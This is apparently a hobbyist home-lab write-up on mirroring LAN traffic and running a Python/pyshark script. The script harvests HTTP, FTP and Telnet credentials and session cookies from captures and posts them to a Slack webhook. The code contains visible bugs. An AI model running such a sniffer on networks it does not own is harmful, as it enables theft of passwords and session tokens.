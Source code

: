 # Lan Monitor 2

For this project I will be using my dell rack server. The reasons for this are; 1) It is easier to cinnect as it is already in my server room 2) It has better hardware so it will be able to process the network data faster than a rasberry pi.

## LAN mirroring

We first need to mirror all network traffic and send it to our rack server. Luckly this is fairly easy

1 - We need to plug our rack server into a router port I have chosen port 4

2 - We need to mirror to this port bellow if the configuration for this.

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## Intercepting traffic

My dell server is windows so lets check the interfaces we have available.

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

I know I plugged the ethernet for port mirroring into NIC1 so thats the interface we need. Lets make note of it's IP.

Now we need to install winPcap and winDump. This is straight forward.

With these installed we can now run this command to save all data to a file.

```
windump -1 3 -w capture.pcap
```

## Python for credential sniffing

I created the following python script to sniff for common passsword patterns on HTTP FTP and Telnet

```python
import pyshark
import requests
import re
import time
import subprocess
import threading
import os

SLACK_WEBHOOK_URL = "https://hooks.slack.com/services/xxxxx"

patterns = {
    "HTTP Basic Auth": r"Authorization: Basic ([a-zA-Z0-9+/=]+)", 
    "HTTP Form Auth": r"username=(\S+)&password=(\S+)",
    "HTTP Cookie Auth": r"Cookie: (.*?=(.*?))",
    "HTTP Digest Auth": r"Authorization: Digest (.*)",
    
    "FTP Credentials": r"USER\s+(.+?)\r\nPASS\s+(.+?)\r\n",
    "FTP Cleartext Login": r"^USER\s+([^\r\n]+)\r\nPASS\s+([^\r\n]+)\r\n",


    "Telnet Credentials": r"^USER (.+?)\nPASS (.+?)\n",
    "Telnet Cleartext Login": r"Password: (.+?)\n",
    "Telnet Negotiation": r"^((?:\xFF\xFD.*?)+)\xFF\xFB\x01",
}

def send_slack_alert(message):
    payload = {"text": message}
    requests.post(SLACK_WEBHOOK_URL, json=payload)
    print(message)

def analyze_pcap():
    pcaps = [file for file in os.listdir() if "capture_" in file]
    for pcap in pcaps:
        if int(pcap.split("_")[1][:-5]) +60 > time.time():
            continue
        capture = pyshark.FileCapture(pcap, display_filter="http or ftp or telnet", use_json=True, keep_packets=False)
        for packet in capture:
            if hasattr(packet, 'http'):
                if hasattr(packet.http, 'authorization'):
                    match = re.search(patterns["HTTP Basic Auth"], packet.http.authorization)
                    if match:
                        send_slack_alert(f"HTTP Basic Auth credentials found: {match.group(0)}")

                if hasattr(packet.http, 'file_data') and packet.http.file_data:
                    try:
                        data = bytes.fromhex(packet.http.file_data.replace(":", "")).decode("utf-8")
                    except UnicodeDecodeError:
                        continue
                    print(data)
                    match = re.search(patterns["HTTP Form Auth"], data)
                    if match:
                        send_slack_alert(f"HTTP Form-based Auth credentials found: USER={match.group(1)} PASS={match.group(2)}")

                if hasattr(packet.http, 'cookie') and packet.http.cookie:
                    match = re.search(patterns["HTTP Cookie Auth"], packet.http.cookie)
                    if match:
                        send_slack_alert(f"HTTP Cookie Auth (Session Token) found: {match.group(1)}={match.group(2)}")
                        
                if hasattr(packet.http, 'authorization') and 'Digest' in packet.http.authorization:
                    match = re.search(patterns["HTTP Digest Auth"], packet.http.authorization)
                    if match:
                        send_slack_alert(f"HTTP Digest Auth detected: {match.group(0)}")

            if hasattr(packet, 'ftp'):
                if hasattr(packet.ftp, 'request') and 'USER' in packet.ftp.request and 'PASS' in packet.ftp.request:
                    match = re.search(patterns["FTP Cleartext Login"], packet.ftp.request)
                    if match:
                        send_slack_alert(f"FTP Cleartext credentials found: USER={match.group(1)} PASS={match.group(2)}")

                if hasattr(packet.ftp, 'request') and 'AUTH' in packet.ftp.request:
                    match = re.search(patterns["FTP AUTH TLS/SSL"], packet.ftp.request)
                    if match:
                        send_slack_alert(f"FTP AUTH TLS/SSL negotiation detected: {match.group(1)}")
                        
            if hasattr(packet, 'telnet'):
                if hasattr(packet.telnet, 'data'):
                    match = re.search(patterns["Telnet Cleartext Login"], "".join(packet.telnet.data))
                    if match:
                        send_slack_alert(f"Telnet Cleartext credentials found: USER={match.group(1)} PASS={match.group(2)}")
                    match = re.search(patterns["Telnet Negotiation"], "".join(packet.telnet.data))
                    if match:
                        send_slack_alert(f"Telnet negotiation (potential authentication) detected: {match.group(1)}")
                    if type(packet.telnet.data) == str:
                        send_slack_alert(f"Telnet data found: {packet.telnet.data}")                  

            capture.close()
            os.remove(pcap)
    
def runWindump():
    while True:
        pcap = f"capture_{int(time.time())}.pcap"
        try:
            subprocess.call(f'windump -i 3 -w "{pcap}" -s 0', timeout=60)
        except subprocess.TimeoutExpired:
            pass
        
threading.Thread(target=runWindump).start()
while True:
    time.sleep(10)
    analyze_pcap()
```

### Code explanation

1. We create patterns to identify certain request types
2. We create threaded function that run winDump every 60 seconds and creates a new pcap file
3. We run our main function that loads these pcap and searches for any matching patterns
4. Send this data to our slack account


## Showcase

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

We can see we get notified when I (on a different device) try to login usind a http request.

## Findings

For obvious resons I will not show any real results but the interesting finding were

1. A lot of telnet passwords were found. These were from scrappers trying to access my routers telnet login. Telnet is not encypted so any MitM attack could read these.
2. No real http credentails were found. People just don't do that in a real world setting
3. I manually looked and found a lot of http proxy authentications with base64 encoded username and passwords. This is from a seperate project that I am running but it was interesting to see proxy authentication is done over HTTP not HTTPs. This prompted me to change my proxy passowrds to not resemble any of my normal passswords
4. It would be not be possible to try SSL stripping with this approach but perhaps it could be a later project...

We will end the project here for now.....
